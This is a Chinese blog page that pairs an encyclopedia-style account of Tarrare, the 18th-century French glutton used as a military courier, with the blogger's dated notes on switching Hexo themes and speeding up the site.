在医院里当了几个月实验品后，军方打算让塔拉里继续服役[9]。考维尔医生非常希望能继续研究病人的饮食习性和消化系统，他向亚历山大·德·博阿尔内将军（General Alexandre de Beauharnais）建议，让塔拉里的“才干”为军队所用[9]。他先将文件放入木盒，让塔拉里吞下木盒，两天后，木盒出现在粪便中，里面的文件依然清晰可读[9][17]。考维尔于是向将军建议，让塔拉里充当军队信使，因为他可以“携带”文件通过敌区，即便搜身也无法发现[9]。

博阿尔内将军召集莱茵河集团军的各级指挥官，共同验证塔拉里的“工作能力”[9]。塔拉里成功吞下盒子，并获得一独轮车的公牛内脏作为奖励[2]，他马上就在一堆将军面前把这14公斤生牛肺和牛肝全吃掉了[9][18]。

经过这次成功的展示，塔拉里正式成为莱茵河集团军的间谍。博阿尔内将军对塔拉里用身体携带信件的能力深信不疑，但也担心其精神状态能否担此大任，所以一开始并不愿将重要军事文件交给他。[19]塔拉里的第一项任务是前去诺伊施塔特附近，给一位遭普鲁士人囚禁的法国上校捎信[9]。军方告诉塔拉里，他肚里文件的军事意义极大，但那实际上不过是博阿尔内将军写的便条，要求上校确认是否收到文件，如果收到，那么就把任何有关普鲁士军队动向的信息再传回来[19]。

塔拉里假扮成德国农民，借夜色掩护穿过普鲁士战线[19]。但由于他不会说德语[10]，因此当地居民很快就对他留上了神，还上报了普鲁士军方，塔拉里于是在兰道郊外被擒。普鲁士军人对他搜身检查，但没有发现任何疑点，面对敌人鞭打，塔拉里忠于使命、坚不吐实。[19]他被带到当地普鲁士军队指挥官佐格里将军（General Zoegli）面前，但仍然拒绝交待，因此入狱[19]。经过24小时的关押，塔拉里让步了，向敌人交待了传递信息的计策[19]。他被锁进茅房，木盒在被他吞下30小时后终于重见天日[17][19]。由于塔拉里先前声称自己带有至关重要的军事情报，因此佐格里将军在看到博阿尔内将军的“情报”后怒发冲冠，下令将塔拉里送上绞架，并且绞索都已经套到犯人脖子上[19][注 3]。但就在最后一刻，佐格里心软了，塔拉里被带离绞架后又经受了一顿痛打，然后在法军战线附近获释[19]。

# 治疗
间谍生涯出师不利之下，塔拉里开始竭尽全力避服兵役。他回到医院，向佩尔西表示愿接受任何治疗方案。[19]佩尔西先给病人试服鸦片酊，然后是葡萄醋和烟丸，但都无济于事[17][19]。接下来佩尔西又给塔拉里吃下大量水煮蛋，但这同样无法压制病人的食欲[20]。医生想方设法让塔拉里控制饮食，但都徒劳无功，他会设法溜出医院，在屠夫的店铺外搜寻下水，与流浪狗争抢排水沟、小巷和垃圾堆里的腐肉[2][17][20]。医院工作人员先后多次抓到他吸食正在放血病人的血液，还打算吃掉太平间的尸体[2][17]。其他医生认为塔拉里患有精神疾病，因此向佩尔西施压，要求将病人转送疯人院，但佩尔西仍然打算继续实验，所以塔拉里也继续留在部队医院[20]。

经过一段时日，有位14个月大的孩童失踪，院方立即怀疑到塔拉里的头上。这一次，佩尔西没有（或者也是无法）替病人辩护，医院工作人员将塔拉里赶了出去，他再也没有回来。[17][20]

# 逝世
4年后（1798年），凡尔赛镇一家医院有位名叫泰西（M. Tessier）的医生与佩尔西取得联络，称院中有位病人希望能见佩尔西一面。这个病人正是已经卧病在床、身体虚弱的塔拉里。[20]塔拉里告诉佩尔西，自己曾于两年前吞下一只金叉，相信正是因为这只金叉留在体内导致他现在如此虚弱，希望佩尔西能想办法把金叉弄出去。但佩尔西发现，病人实际上患有晚期肺结核。[20]一个月后，塔拉里开始持续不断地腹泻，并在不久后去世[20]。

尸体很快腐烂，医院的医生拒绝解剖[20]。但泰西却希望通过检查病人体内找到病因，而且他也好奇，那支金叉是不是真的留在塔拉里体内[20]。经过验尸，医生发现塔拉里的食道异常之宽，而且医生只需打开病人的下巴就能从宽阔的通道一直看到胃里[21]。医生还发现塔拉里的尸体里到处都有脓[17]，肝脏和胆囊都异常之大[17]，胃非常庞大，但到处都是溃疡[10]，胃占据了腹腔的大部分空间[17][20]。

但是，泰西一直都没能找到那只金叉[22]。
</details>


#### ---22日

试了一下本地打开博客和网上打开博客时间居然差不多...

F12看了一下博客，5秒加载时间一半是不蒜子的功劳...

.不蒜子最近似乎有点不稳定，欸,暂时移除它吧,有空看看cnzz行不行..

多bb一句：移除后基本秒开了，CloudFlare确实NB！

#### ---21日

换了个主题，啥功能都集成了，渲染速度提升了，强烈推荐fluid！

---


<img src="https://img.cyfan.top/pic/post/pasted-81.png" width="75%" height="75%">

不好意思，谷歌，我有点无法理解你的思维。


#### ---20日

主题更换完成，修改小记：Gitalk、Google统计、lazyload

---

华丽丽的分割线

---

对不起，我又换成fluid了<img src="https://img.cyfan.top/pic/moji/huaji.png">，而且意外的发现这可以随便加表情<img src="https://img.cyfan.top/pic/moji/huaji.png"><img src="https://img.cyfan.top/pic/moji/zhuaji.png"><img src="https://img.cyfan.top/pic/moji/yhuaji.png">

---

After a few hundred years, GitHub will become the world's largest digital cemetery, and most of the users have passed away. However, their homepages, projects and commit history describe what they did during their lifetime.
几百年后，GitHub将成为世界上最大的数字公墓，大部分用户已经去世。然而，他们的主页、项目和提交历史描述了他们一生中所做的事情。


#### ---19日

同学们啊，博客刚开始用千万不要用NexT了啊，现在出坑还来的及啊。

NexT专属内建标签在其它主题是不兼容的，不兼容的！这意味着一旦入坑换主题就很麻烦了啊！！！！

今天下午本来是想跳槽到 `diaspora` ，结果因为不兼容 `note class_name` 导致无法使用。

血亏啊啊啊啊啊啊啊w(&Д&)w

</details>

</details>
-->
